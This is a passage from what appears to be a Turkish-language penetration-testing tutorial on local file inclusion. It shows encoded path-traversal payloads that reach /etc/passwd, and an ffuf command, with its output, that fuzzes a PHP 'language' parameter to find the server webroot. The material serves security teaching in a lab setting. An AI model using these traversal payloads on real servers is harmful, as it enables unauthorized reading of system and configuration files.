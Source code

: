 ```shell-session
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```


## **Fuzzing Server Files**  

LFI payloadlarını fuzzing'e ek olarak, LFI istismarımızda yardımcı olabilecek farklı sunucu dosyaları vardır, bu nedenle bu tür dosyaların nerede olduğunu ve bunları okuyup okuyamayacağımızı bilmek yararlı olacaktır. Bu tür dosyalar şunları içerir: `Sunucu webroot yolu`, `sunucu yapılandırma dosyası` ve `sunucu günlükleri`.


#### **Server Webroot**  

Bazı durumlarda istismarımızı tamamlamak için tam sunucu webroot yolunu bilmemiz gerekebilir. Örneğin, yüklediğimiz bir dosyayı bulmak istiyorsak, ancak `/uploads` dizinine göreceli yollarla ulaşamıyorsak (ör. `../../uploads`). Bu gibi durumlarda, sunucunun webroot yolunu bulmamız gerekebilir, böylece yüklediğimiz dosyaları göreli yollar yerine mutlak yollarla bulabiliriz.  

Bunu yapmak için, [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) veya [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) bu kelime listesinde bulabileceğimiz ortak webroot yolları aracılığıyla `index.php` dosyasını fuzz edebiliriz. LFI durumumuza bağlı olarak, birkaç arka dizin eklememiz (örneğin `../../../../`) ve ardından `index.php` dosyamızı eklememiz gerekebilir `.`  

Aşağıda tüm bunları ffuf ile nasıl yapabileceğimize dair bir örnek verilmiştir


```shell-session
M1R4CKCK@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

Gördüğümüz gibi, tarama gerçekten de (`/var/www/html/`) adresindeki doğru webroot yolunu tespit etti. Daha önce kullandığımız [LFI-Jhaddix.txt](“https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt”) kelime listesini de kullanabiliriz, çünkü bu liste webroot'u ortaya çıkarabilecek çeşitli payload'lar da içermektedir. Eğer bu webroot'u belirlememize yardımcı olmazsa, o zaman en iyi seçimimiz sunucu yapılandırmalarını okumak olacaktır, çünkü daha sonra göreceğimiz gibi webroot ve diğer önemli bilgileri içerme eğilimindedirler.
